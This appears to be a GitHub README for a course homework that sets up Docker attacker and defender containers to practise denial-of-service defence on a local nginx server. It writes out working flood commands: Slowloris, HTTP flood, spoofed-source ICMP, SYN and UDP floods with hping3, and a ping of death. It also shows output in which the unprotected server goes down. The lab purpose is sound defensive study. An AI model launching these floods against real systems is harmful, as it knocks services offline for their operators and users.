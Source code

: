 # Homework #16 for Highload:Projector

### Fuck the Hack :)

Setup two docker containers:
- attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)
- Defender container - ubuntu & nginx with simple website

Try to implement protection on Defender container

Launch attacker scripts and examine you protection


## Installation

```
git clone https://github.com/god-of-north/highload-homework-16.git
cd highload-homework-16
docker-compose build
```


## Attacker Tools

Enter to the ```attacker``` container to run attacker tools 
```
docker-compose run attacker bash
```

**Tools:**
- http-flood.sh - *HTTP Flood*
- icmp-flood.sh - *ICMP Flood*
- ping-of-death.sh - *Ping of Daeth*
- set-backend.sh - *Setting target as __unprotected__ NGINX server*
- set-defender.sh - *Setting target as __protected__ NGINX server*
- slowloris.sh - *Slowloris*
- syn-flood.sh - *SYN Flood*
- udp-flood.sh - *UDP Flood*


## Testing

### Slowloris
```
slowhttptest -c 2000 -H -g -o slowhttp -i 10 -r 200 -t GET -u ${TARGET_URL} -x 24 -p 3
```

Attack on NGINX server with DDoS protection **enabled**:
```
initializing:        0
pending:             0
connected:           571
error:               0
closed:              1429
service available:   YES
```

Attack on NGINX server with DDoS protection **disabled**:
```
initializing:        0
pending:             0
connected:           1029
error:               0
closed:              971
service available:   NO
```

```
curl -XGET http://localhost:5050
curl: (52) Empty reply from server
```

### HTTP Flood
```
siege -b -c250 -t60s ${TARGET_URL}
```

### ICMP Flood
```
hping3 --flood --rand-source -1 -p ${TARGET_PORT} ${TARGET_IP}
```

### Ping of Daeth
```
fping -b 65500 ${TARGET_IP}
```

### SYN Flood
```
hping3 -c 20000 -d 120 -S -w 64 -p ${TARGET_PORT} --flood --rand-source ${TARGET_IP}
```

### UDP Flood
```
hping3 --flood --rand-source --udp -p ${TARGET_PORT} ${TARGET_IP}
```
